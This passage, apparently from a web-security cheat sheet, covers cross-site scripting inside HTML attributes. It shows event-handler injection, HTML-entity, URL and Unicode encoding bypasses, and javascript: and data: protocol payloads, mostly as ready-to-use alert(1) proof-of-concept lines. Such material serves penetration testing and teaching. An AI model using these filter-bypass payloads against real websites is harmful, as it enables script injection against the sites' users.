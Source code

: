 ### Within the attribute

Even if you **cannot escape from the attribute** (`"` is being encoded or deleted), depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked.\
Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**

#### **Bypass inside event using HTML encoding/URL encode**

The **HTML encoded characters** inside the value of HTML tags attributes are **decoded on runtime**. Therefore something like the following will be valid (the payload is in bold): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Note that **any kind of HTML encode is valid**:

```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

**Note that URL encode will also work:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

#### Bypass inside event using Unicode encode

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Special Protocols Within the attribute

There you can use the protocols **`javascript:`** or **`data:`** in some places to **execute arbitrary JS code**. Some will require user interaction on some won't.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line 
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```